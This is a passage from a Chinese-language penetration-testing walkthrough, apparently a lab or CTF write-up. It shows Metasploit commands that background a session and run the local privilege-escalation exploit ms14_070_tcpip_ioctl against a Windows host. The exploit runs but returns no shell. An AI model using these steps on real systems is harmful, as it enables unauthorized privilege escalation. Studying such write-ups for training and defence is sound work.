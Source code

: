 我用命令将这个会话放在后台

```
background
```

![Screenshot-2020-04-28-at-16.11.48](img/d20f2de13667e6c28d8018e28164e964.png)

我运行以下命令来使用我发现的漏洞

```
use exploit/windows/local/ms14_070_tcpip_ioctl
```

![Screenshot-2020-04-28-at-16.12.00](img/4ecf1c6d07ed44a63bdbb62b4aa1f8bb.png)

然后我检查这个漏洞的选项

![Screenshot-2020-04-28-at-16.12.33](img/2fe1e8a62208346c34533fb7df4440c9.png)

我将会话设置为

```
set SESSION 1
```

![Screenshot-2020-04-28-at-16.12.49](img/de94f9d7597ae2488df0ab27be6a0f66.png)

我运行漏洞利用

```
run
```

![Screenshot-2020-04-28-at-16.13.05](img/d70ef904668466552b30ea7cd1fe0a1b.png)

漏洞利用成功了，但我没有得到一个外壳回来。我检查了选项

![Screenshot-2020-04-28-at-16.13.16](img/868a3ce3feafc3bd6d3f457762ad8d7b.png)
